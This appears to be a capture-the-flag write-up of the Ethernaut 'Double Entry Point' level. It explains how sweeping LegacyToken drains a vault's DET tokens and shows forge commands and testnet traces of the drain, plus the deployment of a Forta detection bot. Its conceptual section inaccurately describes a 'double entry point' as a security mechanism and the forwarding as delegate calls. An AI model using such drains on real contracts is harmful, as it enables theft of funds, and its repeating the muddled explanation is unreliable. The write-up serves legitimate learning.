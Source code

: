 # Double Entry Point

This level features a `CryptoVault` with special functionality, the `sweepToken` function. This is a common function used to retrieve tokens stuck in a contract. The `CryptoVault` operates with an `underlying` token that can't be swept, as it is an important core logic component of the `CryptoVault`. Any other tokens can be swept.

The underlying token is an instance of the DET token implemented in the `DoubleEntryPoint` contract definition and the `CryptoVault` holds 100 units of it. Additionally the `CryptoVault` also holds 100 of `LegacyToken LGT`.

In this level you should figure out where the bug is in `CryptoVault` and protect it from being drained out of tokens.

The contract features a `Forta` contract where any user can register its own `detection bot` contract. `Forta` is a decentralized, community-based monitoring network to detect threats and anomalies on DeFi, NFT, governance, bridges and other Web3 systems as quickly as possible. Your job is to implement a detection bot and register it in the `Forta` contract. The bot's implementation will need to raise correct alerts to prevent potential attacks or bug exploits.

[Contract ABI Specification](https://docs.soliditylang.org/en/latest/abi-spec.html#contract-abi-specification)

## Double Entry Point (DEP)

A `Double Entry Point (DEP)` in the context of token contracts is a security mechanism designed to protect smart contracts, especially those handling tokens, from unauthorized access or vulnerabilities.

While the term `Double Entry Point` isn't standard in Ethereum or smart contract development, the concept can be inferred to involve an additional layer of security or validation before certain actions can be performed, particularly those that could lead to the unauthorized movement of tokens.

### Conceptual Overview

1. `Standard Token Contract`: A typical token contract allows users to transfer tokens from one account to another. It includes functions like `transfer` and `approve`, which, if not properly secured, could be exploited.
2. `Double Entry Point Mechanism`: Introduces an additional layer or checkpoint before executing sensitive operations. This could be implemented in various ways, such as:
   - `Proxy Contracts`: A `DEP` might use a proxy contract that forwards calls to the main token contract. The proxy can contain additional checks or logic to validate transactions before they reach the token contract.
   - `Detection Bots`: A system like `Forta` allows for the registration of detection bots. These bots can monitor transactions for suspicious activity and potentially halt or flag transactions before they are executed, acting as a `DEP` by providing an additional validation step.


## Vulnerability

The vulnerability in the `DoubleEntryPoint.sol` contract arises from the interaction between the `CryptoVault`, `LegacyToken`, and `DoubleEntryPoint` contracts, specifically through the use of delegate calls and the manipulation of the `msg.sender` value. Here's a step-by-step explanation of how the vulnerability can be exploited:

1. `CryptoVault` contract is designed to hold tokens, including a special token represented by the `DoubleEntryPoint` contract (DET). The `LegacyToken` (LGT) contract is another token that can delegate its transfer function to the `DoubleEntryPoint` contract.

2. `LegacyToken` contract has a function `delegateToNewContract` that allows it to set the `DoubleEntryPoint` contract as its delegate. This means that calls to `LegacyToken.transfer` can be forwarded to `DoubleEntryPoint.delegateTransfer` via the delegate mechanism.

3. `CryptoVault` has a `sweepToken` function intended to allow the transfer of any token except its underlying token (to prevent draining the vault of its primary asset). However, this function does not account for the possibility of delegate calls changing the execution context.

4. The attacker convinces the vault to call `sweepToken` with the `LegacyToken` (LGT) as the target. The `sweepToken` function checks that `LGT` is not the underlying token and proceeds. It then calls `LegacyToken.transfer`, intending to transfer all `LGT` tokens to a recipient. Since `LegacyToken` has `DoubleEntryPoint` set as its delegate, the call is forwarded to `DoubleEntryPoint.delegateTransfer`.

5. In `DoubleEntryPoint.delegateTransfer`, the `onlyDelegateFrom` modifier checks that `msg.sender` is the `LegacyToken` contract, which is true in this case. The `fortaNotify` modifier is designed to detect suspicious transactions but does not prevent the execution if the `LegacyToken` is the caller.

6. The `delegateTransfer` function in `DoubleEntryPoint` executes, transferring `DET` tokens from the `CryptoVault` to the specified recipient. This effectively drains the `CryptoVault` of its `DET` tokens, bypassing the check in `sweepToken` that was supposed to prevent this exact scenario.






## Attack

1.
```bash
# the delegate contract is the DoubleEntryPoint contract.

forge script script/DoubleEntryPointScan.s.sol --rpc-url $ALCHEMY_RPC_URL --private-key $PRIVATE_KEY --broadcast --legacy -vvvv

Traces:
  [19238] DoubleEntryPointScan::run()
    ├─ [0] VM::startBroadcast()
    │   └─ ← [Return] 
    ├─ [2404] 0xD34d38b269c9523a9329833B228a46D3b44ABD21::cryptoVault() [staticcall]
    │   └─ ← [Return] 0xE94cF7F7F221cd103f882C6E3e04fC4f6681B07f # CryptoVault contract
    ├─ [2347] 0xE94cF7F7F221cd103f882C6E3e04fC4f6681B07f::underlying()
    │   └─ ← [Return] 0xD34d38b269c9523a9329833B228a46D3b44ABD21 # DoubleEntryPoint/Ethernaut contract
    ├─ [2383] 0xD34d38b269c9523a9329833B228a46D3b44ABD21::delegatedFrom() [staticcall]
    │   └─ ← [Return] 0x72B92c2c00971CAa02097E86ee578f650066C2BA # Legacy token contract
    ├─ [0] VM::stopBroadcast()
    │   └─ ← [Return] 
    └─ ← [Stop]
````

2. 

```bash
forge script script/DeployDoubleEntryPointAttack.s.sol --rpc-url $ALCHEMY_RPC_URL --private-key $PRIVATE_KEY --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY -vvvv --legacy

Traces:
  [116080] DeployDoubleEntryPointAttack::run()
    ├─ [0] VM::startBroadcast()
    │   └─ ← [Return] 
    ├─ [2404] 0xD34d38b269c9523a9329833B228a46D3b44ABD21::cryptoVault() [staticcall]
    │   └─ ← [Return] 0xE94cF7F7F221cd103f882C6E3e04fC4f6681B07f
    ├─ [2347] 0xE94cF7F7F221cd103f882C6E3e04fC4f6681B07f::underlying() [staticcall]
    │   └─ ← [Return] 0xD34d38b269c9523a9329833B228a46D3b44ABD21
    ├─ [2383] 0xD34d38b269c9523a9329833B228a46D3b44ABD21::delegatedFrom() [staticcall]
    │   └─ ← [Return] 0x72B92c2c00971CAa02097E86ee578f650066C2BA
    ├─ [57067] 0xE94cF7F7F221cd103f882C6E3e04fC4f6681B07f::sweepToken(0x72B92c2c00971CAa02097E86ee578f650066C2BA)
    │   ├─ [2557] 0x72B92c2c00971CAa02097E86ee578f650066C2BA::balanceOf(0xE94cF7F7F221cd103f882C6E3e04fC4f6681B07f) [staticcall]
    │   │   └─ ← [Return] 100000000000000000000 [1e20]
    │   ├─ [48677] 0x72B92c2c00971CAa02097E86ee578f650066C2BA::transfer(0x64Dd9D94818A2CA2e95c31B084aeF0CC92e86dA2, 100000000000000000000 [1e20])
    │   │   ├─ [45519] 0xD34d38b269c9523a9329833B228a46D3b44ABD21::delegateTransfer(0x64Dd9D94818A2CA2e95c31B084aeF0CC92e86dA2, 100000000000000000000 [1e20], 0xE94cF7F7F221cd103f882C6E3e04fC4f6681B07f)
    │   │   │   ├─ [2573] 0xEA5834D9F6189326C6d687c78CE3B5E97fba190C::usersDetectionBots(0x64Dd9D94818A2CA2e95c31B084aeF0CC92e86dA2) [staticcall]
    │   │   │   │   └─ ← [Return] 0x0000000000000000000000000000000000000000
    │   │   │   ├─ [2541] 0xEA5834D9F6189326C6d687c78CE3B5E97fba190C::botRaisedAlerts(0x0000000000000000000000000000000000000000) [staticcall]
    │   │   │   │   └─ ← [Return] 0
    │   │   │   ├─ [758] 0xEA5834D9F6189326C6d687c78CE3B5E97fba190C::notify(0x64Dd9D94818A2CA2e95c31B084aeF0CC92e86dA2, 0x9cd1a12100000000000000000000000064dd9d94818a2ca2e95c31b084aef0cc92e86da20000000000000000000000000000000000000000000000056bc75e2d63100000000000000000000000000000e94cf7f7f221cd103f882c6e3e04fc4f6681b07f)
    │   │   │   │   └─ ← [Stop] 
    │   │   │   ├─ emit Transfer(from: 0xE94cF7F7F221cd103f882C6E3e04fC4f6681B07f, to: 0x64Dd9D94818A2CA2e95c31B084aeF0CC92e86dA2, value: 100000000000000000000 [1e20])
    │   │   │   ├─ [541] 0xEA5834D9F6189326C6d687c78CE3B5E97fba190C::botRaisedAlerts(0x0000000000000000000000000000000000000000) [staticcall]
    │   │   │   │   └─ ← [Return] 0
    │   │   │   └─ ← [Return] true
    │   │   └─ ← [Return] true
    │   └─ ← [Stop] 
    ├─ [0] VM::stopBroadcast()
    │   └─ ← [Return] 
    └─ ← [Stop] 

# https://sepolia.etherscan.io/tx/0xceeaea7cee765e3f8c80d5fc1445b90f404f7964543bf80894f985854fd0815d
```

## Forta Bot

1.

```bash
# Forta contract= 0xEA5834D9F6189326C6d687c78CE3B5E97fba190C
forge create FortaBot --rpc-url $ALCHEMY_RPC_URL --private-key $PRIVATE_KEY --legacy --constructor-args 0xD94c78bBAB898777CbD847CfCf3d2B2917516F27

# https://sepolia.etherscan.io/address/0x0CA7964911b3F29Cdba8C74853af729701A1Db63
```

2.

```bash
forge script ./script/RegisterBot.s.sol --rpc-url $ALCHEMY_RPC_URL --private-key $PRIVATE_KEY --broadcast --legacy -vvvv

# https://sepolia.etherscan.io/tx/0x6412b5b2cb06ef6787fce4ae3269742ce2478443b2c4780547dd5859368aee12
```


## Fix

